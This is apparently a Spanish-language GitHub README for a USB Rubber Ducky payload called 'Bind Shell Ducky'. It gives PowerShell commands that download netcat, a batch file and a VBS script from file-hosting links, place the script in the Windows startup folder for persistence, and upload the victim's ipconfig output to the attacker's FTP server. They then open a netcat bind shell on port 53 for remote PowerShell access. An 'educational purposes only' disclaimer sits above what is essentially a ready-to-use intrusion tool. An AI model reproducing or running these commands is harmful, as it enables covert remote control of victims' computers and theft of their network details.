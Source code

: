 # Bind Shell Ducky
No me hago responsable del mal uso que se le pueda dar a esta herramienta. Sólo para fines educativos.

## Explicación

Este payload lo que hace es configurar una bind shell que se ejecutará cada vez que el ordenador se encienda. Para ello, descarga 3 archivos y sube a nuestro servidor ftp 
( podéis modificarlo para que se suba de otro modo) un archivo .txt que contiene la información con la IP del equipo víctima.


#### Archivos utilizados:

-nc.exe en USERPROFILE --> [**Link_1**](http://www.mediafire.com/file/ncd5kz7z6bv0bsa/nc.exe/file)

-Archivo b.bat en cualquier directorio, en mi caso USERPROFILE --> [**Link_2**](http://www.mediafire.com/file/kluwkdgi8v6dovl/b.bat/file)

-Archivo e.vbs en carpeta de menú de inicio --> [**Link_3**](http://www.mediafire.com/file/ohgvexnnc6axq1d/e.vbs/file)

-Archivo a.txt que contendrá la <IP_VÍCTIMA> ubicada en C:\


#### Conseguir la <IP_VÍCTIMA> y enviarla :

-En el mismo powershell: cd C:\

-En la siguiente línea enviamos la ip a un bloc de notas: ipconfig > a.txt

-Nos registramos en nuestro servidor ftp: ftp <HOST DEL DOMINIO>
	
-<USUARIO>
	
-<CONTRASEÑA>
	
-Subimos el archivo ya creado: put a.txt
	
-bye


#### Por último, ejecuta el programa:

	-En el mismo ps:  start $st\e.vbs 


#### ADICIONAL:    

  Para acelerar el proceso, se declaran las variables $us , $st y $client 
  
  La conexión es a través del Puerto 53 
  
  Recomendable modificar el Delay en el payload dependiendo de la velocidad del ordenador. La duración media es de 40 segundos. 
  
  El comando que aparece en el .bat es: .\nc -lvp 53 -e powershell 
  
  Para acceder a la shell del equipo víctima, debemos poner esto desde kali linux: nc <IP_VÍCTIMA> 53 
  
  La <IP_VÍCTIMA> estará en el archivo a.txt que habremos enviado por ftp durante el ataque. 
  
  Probablemente os pida aceptar una opción del firewall al finalizar el proceso. 
  
  Editar en el payload la contraseña, dominio y usuario del server ftp.
  
  Hay que modificar los links (link_1_descarga.directa) por unos nuevos de descarga directa ya que estos cambian con el tiempo.


#### COMANDOS EN POWERSHELL:
```
	$us = $env:userprofile
	$st = $env:appdata + "\Microsoft\Windows\Start Menu\Programs\"
	$client = new-object System.Net.WebClient
	$client.DownloadFile("link_1_descarga.directa","$us\b.bat")
	$client.DownloadFile("link_2_descarga.directa","$us\nc.exe")
	$client.DownloadFile("link_3_descarga.directa","$st\e.vbs")
	cd C:\
	ipconfig > a.txt
	ftp <DOMINIO>
	<USUARIO>
	<CONTRASEÑA
	put a.exe
	bye
	start $st\e.vbs  
	exit	
```

## Sígueme en mi cuenta de Instagram: [**@belmar_04**](https://www.instagram.com/belmar_04/)
